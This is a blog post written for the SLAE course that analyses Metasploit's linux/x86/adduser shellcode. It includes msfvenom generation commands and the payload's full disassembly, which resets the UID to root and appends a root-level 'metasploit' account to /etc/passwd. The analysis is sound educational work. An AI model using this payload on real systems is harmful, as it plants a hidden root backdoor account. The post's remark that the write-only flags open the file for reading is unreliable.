 ```yaml
---
layout: post
title: "SLAE Problem 5.2: Msfvenom Analysis of linux/x86/adduser"
description: "Analysis of Msfvenom shellcode samples"
tags: [asm, shellcode, msfvenom]
---
```



This blog post has been created for completing the requirements for the SecurityTube
Linux Assembly Expert certification:
[<http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert>](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert)

Student ID: SLAE-824

## Requirements

- Choose at least 3 shellcode samples created using Msfvenom for linux/x86
- Use GDB/Ndisasm/Libemu to dissect the functionality of the shellcode
- Present your analysis

### Analysis

The next shellcode I would like to look at is linux/x86/adduser. My prediction
for this shellcode is that it essentially just runs execve with
`/usr/sbin/adduser` and the arguments that it would require. Lets analyze the
assembly to find out!

Running:

{% highlight bash %}
msfvenom --payload linux/x86/adduser --payload-options
{% endhighlight %}

We see:

{% highlight bash %}
Basic options:
Name   Current Setting  Required  Description
----   ---------------  --------  -----------
PASS   metasploit       yes       The password for this user
SHELL  /bin/sh          no        The shell for this user
USER   metasploit       yes       The username to create
{% endhighlight %}

The username and password both default to `metasploit` and
the shell the user will be assigned will be /bin/sh. We will
most likely find these values as arguments to execve if our
prediction is correct. Lets export the shellcode:

Running `msfvenom --payload linux/x86/adduser R > adduser.bin` we
create our shellcode to analyze. Using `ndisasm -u adduser.bin` we get
the following assembly for analysis:

### /linux/x86/adduser Shellcode ASM


{% highlight nasm %}
;; 0x46       = 70
;; syscall 70 = sys_setreuid
;; man 2 setreuid looks like the following
;; int setreuid(uid_t ruid, uid_t euid);
xor ecx,ecx
mov ebx,ecx
push byte +0x46
pop eax
int 0x80

{% endhighlight %}

As illustrated in the comments, the above chunk of assembly
sets the real and effective user id of of the process to be
0 which elevates the privileges.


{% highlight nasm %}

;; 0x5       = 5
;; syscall 5 = sys_open
push byte +0x5
pop eax

;; Clear out ecx
xor ecx,ecx
;; Push 0x00000000
;; This will null terminate our string
push ecx

;; Build up a file as a string to open
push dword 0x64777373 ;; ‘dwss’
push dword 0x61702f2f ;; ‘ap//‘
push dword 0x6374652f ;; ‘cte/‘

;; Move a pointer to our file to open into ebx
mov ebx,esp

;; Increment ecx to 0x00000001
inc ecx

;; And move 0x4 into the high byte of cx
;; making cx 0x0401 as the flags passed to the open call
mov ch,0x4
int 0x80
{% endhighlight %}

The next chunk of assembly calls open. This opens the `/etc/passwd`
file with the flags of 0x0401. What does 0x0401 stand for? Well,
looking in `/usr/include/asm-generic/fcntl.h` we see:

{% highlight bash %}
define O_WRONLY        00000001
.. snip ..
define O_APPEND        00002000
{% endhighlight %}

The values specified in this header file are defined in octal. Our assembly is
using hex so we do a bit of conversion using gdb:

{% highlight bash %}
gdb --batch --ex "print /o 0x0401"
{% endhighlight %}

This tells us that our hex value actually equals 02001 in octal of which doing
00000001 | 00002000 = 00002001 or O_WRONLY | O_APPEND. This  indicates that we
have opened the file for reading and writing and in append mode. This will
ensure that the cursor is placed at the end of the file.

The next chunk of code gets interesting. We need the memory offsets
to help us a bit:

{% highlight nasm %}
00000025  93                xchg eax,ebx
00000026  E828000000        call dword 0x53
0000002B  6D                insd
0000002C  657461            gs jz 0x90
0000002F  7370              jnc 0xa1
00000031  6C                insb
00000032  6F                outsd
00000033  69743A417A2F6449  imul esi,[edx+edi+0x41],dword 0x49642f7a
0000003B  736A              jnc 0xa7
0000003D  3470              xor al,0x70
0000003F  3449              xor al,0x49
00000041  52                push edx
00000042  633A              arpl [edx],di
00000044  303A              xor [edx],bh
00000046  303A              xor [edx],bh
00000048  3A2F              cmp ch,[edi]
0000004A  3A2F              cmp ch,[edi]
0000004C  62696E            bound ebp,[ecx+0x6e]
0000004F  2F                das
00000050  7368              jnc 0xba
00000052  0A598B            or bl,[ecx-0x75]
00000055  51                push ecx
00000056  FC                cld
00000057  6A04              push byte +0x4
00000059  58                pop eax
0000005A  CD80              int 0x80

{% endhighlight %}

The xchg is our usual saving of the file descriptor
returned in eax. We then see a `call dword 0x53` and then
things start to get messy. We know about the jump call pop
technique from our SLAE course, maybe this call is leveraging
the fact that the next address will be popped on the stack. Looking
at the offsets in our disassembly and checking out the bytes from
0x53 on, we see `59 8B 51 fC 6A 04 58 CD 80`. Leveraging this
wonderful online [https://defuse.ca/online-x86-assembler.htm#disassembly2](assembler / disassembler)
we learn what those bytes represent:

{% highlight bash %}
0:  59                      pop    ecx
1:  8b 51 fc                mov    edx,DWORD PTR [ecx-0x4]
4:  6a 04                   push   0x4
6:  58                      pop    eax
7:  cd 80                   int    0x80
{% endhighlight %}

Sure enough the address of the next instruction that was placed on the stack
from our `call` instruction is popped into ecx. An offset from that value
is placed in edx which we will need to investigate a bit and then the
0x4 system call. Looking in `/usr/include/i386-linux-gnu/asm/unistd_32.h` we see
that this is `#define __NR_write 4`.

This makes sense. We just opened the /etc/passwd file and now we want to add
stuff to it. The write syscall signature looks like:

{% highlight c %}
ssize_t write(int fd, const void *buf, size_t count)
{% endhighlight %}

This means edx is the length of what is being written, ecx is the string
we want to write, ebx is the file descriptor to /etc/passwd and eax is our
write sys call number. So what would that offset from ecx equate to?
Zooming in on those bytes:

{% highlight bash %}
00000026  E828000000        call dword 0x53
0000002B  6D <--- ecx is pointing here
{% endhighlight %}

Moving backward 4 bytes from the 0x6D puts us at 0x28. This is the value
that is being used as the length of the buffer in the write syscall.

Converting 0x28 to decimal using gdb:

{% highlight bash %}
gdb --batch --ex "print /d 0x28"
$1 = 40
{% endhighlight %}

We see that 40 bytes is going to be written. Using GDB again:
_Note: 0x2B is the beginning of the gibberish, 0x28 is the 40 bytes
we just calculated._

{% highlight bash %}
gdb --batch --ex "print /x 0x2B + 0x28"
$1 = 0x53
{% endhighlight %}

We see that 0x53 is 40 bytes after our call instruction and is exactly
the byte that was referenced in the call command:

{% highlight bash %}
00000026  E828000000 call dword 0x53
{% endhighlight %}

Ok... Lets checkout the bytes of that gibberish and
see what they might translate to as ascii:

{% highlight bash %}
6D65746173706C6F69743A417A2F6449736A3470344952633A303A3A2F3A2F62696E2F73680A

Converted to ascii outputs:

metasploit:Az/dIsj4p4IRc:0::/:/bin/sh

{% endhighlight %}

Ok. That makes sense. This is the line that will be appended to the /etc/passwd
file in the format that linux would expect, e.g
`username:passwd:UID:GID:full_name:directory:shell`. The user, shell, and
presumably password all match up with the configuration that the payload
defaults to.

{% highlight nasm %}
push byte +0x1
pop eax
int 0x80
{% endhighlight %}

Finally we call exit to exit gracefully. So it turns out that my prediction was
completely inaccurate. Execve was not used to execute the `adduser` command.

¯\\_(ツ)_/¯
